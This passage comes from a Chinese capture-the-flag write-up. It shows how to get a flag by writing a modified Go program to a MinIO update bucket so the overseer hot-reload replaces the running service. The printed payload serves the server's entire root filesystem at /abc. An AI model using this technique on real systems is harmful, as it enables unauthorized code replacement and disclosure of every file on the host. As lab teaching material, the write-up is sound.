 我们可以猜测/路由展示的这个.目录就是前面我们下周main文件的目录

我们可以把.改成根目录/，然后将编译后的源码覆写掉原来的update，热更新后，我们就能直接访问根目录了

payload:

```
package main

import (
	"level25/fetch"
	"level25/conf"
	"github.com/gin-gonic/gin"
	"github.com/jpillora/overseer"
)

func main() {
	fetcher := &fetch.MinioFetcher{
		Bucket:    conf.MinioBucket,
		Key:       conf.MinioKey,
		Endpoint:  conf.MinioEndpoint,
		AccessKey: conf.MinioAccessKey,
		SecretKey: conf.MinioSecretKey,
	}
	overseer.Run(overseer.Config{
		Program: program,
		Fetcher: fetcher,
	})

}

func program(state overseer.State) {
	g := gin.Default()
	g.StaticFS("/abc", gin.Dir("/", true))
	g.Run(":8080")
}

```

这里我将/路由改成了/abc，因为不知道为啥我用/路由不行

将源码编译后覆写到储存桶上

![image-20250206163859652](../assets/image-20250206163859652.png)

访问/abc

![image-20250206164000985](../assets/image-20250206164000985.png)

拿到flag

![image-20250206164029974](../assets/image-20250206164029974.png)



### Level 38475 角落
